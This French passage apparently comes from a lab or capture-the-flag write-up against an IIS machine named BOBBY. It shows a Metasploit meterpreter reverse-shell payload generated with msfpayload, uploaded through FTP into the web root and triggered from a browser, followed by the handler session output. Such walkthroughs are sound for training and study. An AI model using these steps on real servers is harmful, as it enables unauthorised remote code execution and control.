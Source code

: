 Le dossier *AdminScripts* semble contenir des fichiers par défaut pour une install IIS. Le *wwwroot* est bien sûr la racine web du site.  

Dans le fichier *hint.html* on trouve le texte suivant :

```plain
#1 This very common Windows file is not downloaded or interpretered but rather executed server side
```

Soit ! On génère une backdoor *Metasploit* (un reverse-shell meterpreter) que l'on uploade sur le FTP (attention à être en mode binaire) :  

```plain
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=9999 X > /tmp/rbd.exe
```

On met en place un handler d'écoute et on ouvre la page via le navigateur pour provoquer l'exécution :  

```plain
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.1.3
LHOST => 192.168.1.3
msf exploit(handler) > set LPORT 9999
LPORT => 9999
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.1.3:9999 
[*] Starting the payload handler...
[*] Sending stage (770048 bytes) to 192.168.1.11
[*] Meterpreter session 1 opened (192.168.1.3:9999 -> 192.168.1.11:1061) at 2014-03-26 08:25:14 +0100
meterpreter > ps

Process List
============

 PID   PPID  Name              Arch  Session     User              Path
 ---   ----  ----              ----  -------     ----              ----
 0     0     [System Process]        4294967295                    
 4     0     System                  4294967295                    
 348   4     smss.exe                4294967295                    
 396   348   csrss.exe               4294967295                    
 420   348   winlogon.exe            4294967295                    
 472   420   services.exe            4294967295                    
 484   420   lsass.exe               4294967295                    
 636   472   svchost.exe             4294967295                    
 696   472   svchost.exe             4294967295                    
 772   472   svchost.exe             4294967295                    
 820   472   svchost.exe             4294967295                    
 856   472   svchost.exe             4294967295                    
 984   472   spoolsv.exe             4294967295                    
 1040  420   logonui.exe             4294967295                    
 1396  1580  rbd.exe           x86   0           BOBBY\IUSR_BOBBY  \\?\c:\inetpub\wwwroot\rbd.exe
 1428  420   logon.scr               4294967295                    
 1580  472   inetinfo.exe            4294967295                    
 2012  472   alg.exe                 4294967295
meterpreter > getuid
Server username: BOBBY\IUSR_BOBBY
```
